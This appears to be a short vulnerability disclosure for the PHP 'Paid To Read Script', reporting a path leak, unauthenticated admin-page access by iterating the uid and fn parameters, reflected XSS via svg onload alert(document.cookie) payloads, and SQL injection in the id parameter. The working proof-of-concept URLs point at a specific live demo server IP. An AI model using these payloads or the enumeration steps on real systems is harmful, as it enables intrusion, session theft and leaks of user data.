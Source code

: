 ### Paid To Read Script  SQL Injection/XSS/Unauthorized access/Sensitive information leak

Well, when I pentest the official demo site of Paid To Read Script, I found some vulnerabilities here.


#### Sensitive information leak

When you visit the some page with wrong or invalid parameter value, you can get some sensitive information like absolute-path without login.

```
http://74.124.215.220/~paioread/admin/userview.php?uid=3

http://74.124.215.220/~paioread/admin/userview.php?uid=12%27

Get absolute-path:
/home/paioread/public_html/admin/userview.ph
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/info_leak.png)


#### Unauthorized access:

For example, we can vist some admin panel webpages easily , without login into the admin panel.

By the way, we can try to iter the parameter values , then get those important sensitive user informations in the database easily.


Key parameter: "fn"
```
http://74.124.215.220/~paioread/admin/viewvisitcamp.php?fn=7
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access1.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access2.png)


Key parameter: "uid"
```
http://74.124.215.220/~paioread/admin/userview.php?uid=13
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access3.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/access4.png)


#### xss:

There're some reflect-xss in this system, for example:

http://74.124.215.220/~paioread/referrals.php?id=10&tier=1%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/xss1.png)

http://74.124.215.220/~paioread/admin/userview.php?uid=13%27%22%3E%3Csvg/onload=alert(document.cookie)%3E%3C%27%22

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/xss2.png)



#### SQL Injection:


Key parameter: "id"

```
http://74.124.215.220/~paioread/referrals.php?id=10&tier=1
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/paid-to-read-script/sqli.png)

You can see,  we can obtain the current database user or more sensitive data now!



